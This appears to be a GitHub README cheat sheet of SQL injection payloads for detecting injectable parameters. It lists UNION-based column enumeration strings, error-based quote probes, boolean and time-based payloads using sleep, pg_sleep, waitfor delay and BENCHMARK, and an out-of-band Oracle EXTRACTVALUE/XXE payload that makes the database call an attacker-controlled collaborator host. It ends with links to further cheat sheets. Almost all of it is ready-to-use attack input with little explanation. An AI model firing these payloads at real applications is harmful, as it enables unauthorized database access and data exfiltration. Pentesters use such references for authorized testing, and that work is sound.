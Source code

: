 <h1>SQL injection detection</h1>

# IN BAND (Classic)
###########################################################################################################

Comment symbols

"--" Symbol Alternative
```
— 	Inline comment
#	Inline comment
/* 	Block comment
*/ 	Block comment
```

# UNION BASED
Column enumeration 

======================================================================================================================================================================
Method 1
```
ORDER BY 1 --+
ORDER BY 2 --+
ORDER BY 3 --+
ORDER BY 4 --+
ORDER BY 5 --+
ORDER BY 6 --+
ORDER BY 7 --+
ORDER BY 8 --+
ORDER BY 9 --+
ORDER BY 10 --+
ORDER BY 11 --+
.....
```

=======================================================================================================================================================================
 ORDER BY 1 --+   
 Alternative :  ' ORDER BY 1 --+ ; " ORDER BY 1 --+ ;

Method 2

```
UNION SELECT NULL --+
UNION SELECT NULL,NULL --+
UNION SELECT NULL,NULL,NULL --+
UNION SELECT NULL,NULL,NULL,NULL --+
UNION SELECT NULL,NULL,NULL,NULL,NULL --+
UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL --+
UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL --+
UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL --+
UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL --+
UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL --+
UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL --+
...
```
==================================================================================================================

Method 3

```
UNION SELECT 1 --+
UNION SELECT 1,2 --+
UNION SELECT 1,2,3 --+
UNION SELECT 1,2,3,4 --+
UNION SELECT 1,2,3,4,5 --+
UNION SELECT 1,2,3,4,5,6 --+
UNION SELECT 1,2,3,4,5,6,7 --+
UNION SELECT 1,2,3,4,5,6,7,8 --+
UNION SELECT 1,2,3,4,5,6,7,8,9 --+
UNION SELECT 1,2,3,4,5,6,7,8,9,10 --+
UNION SELECT 1,2,3,4,5,6,7,8,9,10,11 --+ ..........................................................................
..........
```

==========================================================================================================================

ERROR BASED

``` '
''
`
``
,
"
""
/
//
\
\\
;
...
```
BOOLEAN BASED
```
1 AND 1
2 OR 3
2-1
2^1
3*1
%15
1=2
1>2
3
.....
```
TİME BASED
```
sleep(5)
pg_sleep(5)
waitfor delay '0:0:5'
BENCHMARK(10000000,rand())
....
```
OUT-OF-BAND
```
'+UNION+SELECT+EXTRACTVALUE(xmltype('<?xml+version="1.0"+encoding="UTF-8"?><!DOCTYPE+root+[+<!ENTITY+%+remote+SYSTEM+"http://BURP-COLLABORATOR-SUBDOMAIN/">+%remote;]>'),'/l')+FROM+dual--
```
# Other Resources:
<i>https://portswigger.net/web-security/sql-injection/cheat-sheet</i>
<i>https://perspectiverisk.com/mysql-sql-injection-practical-cheat-sheet/</i>
<i>https://www.securityidiots.com/Web-Pentest/SQL-Injection/XPATH-Error-Based-Injection-Extractvalue.html</i>
<i>https://brightsec.com/blog/error-based-sql-injection/#:~:text=What%20Is%20Error%2DBased%20SQL,actor%20of%20the%20database's%20structure</i>
<i>https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/blob/main/MSSQL%20-%20Error%20Based%20SQLi/README.md</i>
<i>https://www.exploit-db.com/docs/english/41273-mysql-out-of-band-hacking.pdf</i>
<i>https://www.pwc.com.tr/tr/assets/pdf/out-of-band-oob-sql-injection.pdf</i>
<i>https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=&ved=2ahUKEwj-ir6t7bCCAxX_FRAIHVEdCXU4ChAWegQIBRAB&url=https%3A%2F%2Fzenodo.org%2Frecord%2F3556347%2Ffiles%2FA%2520Study%2520of%2520Out-of-Band%2520SQL%2520Injection.pdf%3Fdownload%3D1&usg=AOvVaw0hGkiklfL04cE-qOCuEaPa&opi=89978449<i>
<i>https://www.w3schools.com/sql/sql_comments.asp</i>
